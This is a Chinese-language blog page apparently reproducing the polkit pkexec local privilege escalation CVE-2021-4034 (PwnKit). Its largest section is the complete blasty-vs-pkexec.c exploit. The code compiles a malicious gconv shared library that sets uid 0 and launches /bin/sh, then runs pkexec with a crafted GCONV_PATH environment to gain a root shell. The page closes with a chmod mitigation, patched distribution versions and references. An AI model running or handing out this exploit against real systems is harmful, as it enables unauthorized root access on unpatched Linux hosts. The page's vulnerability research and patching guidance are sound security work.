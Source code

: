 ```yaml
---
layout: about
category: about
Researchname: Polkit-CVE-2021-4034复现
permalink: /about/polkit-CVE-2021-4034/
author: Bin4xin
toc: true
desc: 「polkit」
---
```


> 2022-01-25，CVE-2021-4034利用详情发布。
> 
> 该漏洞是Qualys研究团队在polkit的pkexec中发现的一个内存损坏漏洞，允许非特权用户获取root权限。

## 影响版本

[不影响版本](#%E4%BF%AE%E5%A4%8D)

### 复现环境

```bash
$ uname -a
Linux ubuntu 5.8.0-55-generic #62~20.04.1-Ubuntu SMP Wed Jun 2 08:55:04 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

$ pkexec --version
pkexec version 0.105
```

### 结果

[![Feb-09-2022-16-01-18.gif](https://image.yjs2635.xyz/images/2022/02/09/Feb-09-2022-16-01-18.gif)](https://image.yjs2635.xyz/image/cDXr)

## EXP[来源](https://haxx.in/files/blasty-vs-pkexec.c)

```cpp
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        "GIO_USE_VFS=",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```

### 修复

```bash
chmod 0755 /usr/bin/pkexec
```
或 升级至不影响版本 
```
========================================================================
CentOS：

CentOS 6：polkit-0.96-11.el6_10.2
CentOS 7：polkit-0.112-26.el7_9.1
CentOS 8.0：polkit-0.115-13.el8_5.1
CentOS 8.2：polkit-0.115-11.el8_2.2
CentOS 8.4：polkit-0.115-11.el8_4.2
========================================================================
Ubuntu：

Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1
========================================================================
Debain：

：policykit-1 0.105-18+deb9u2
Debain stretch：policykit-1 0.105-18+deb9u2
Debain buster：policykit-1 0.105-25+deb10u1
Debain bullseye：policykit-1 0.105-31+deb11u1
Debain bookworm,bullseye：policykit-1 0.105-31.1
========================================================================
```

### 参考

- [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt){:target="_blank"}
- [CVE-2021-4034 pkexec提权漏洞分析](https://saucer-man.com/information_security/876.html#cl-3){:target="_blank"}
- [Linux polkit权限提升漏洞修复方法（CVE-2021-4034）](https://moneyslow.com/linux-polket%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%B3%95%EF%BC%88cve-2021-4034%EF%BC%89.html){:target="_blank"}

以上。
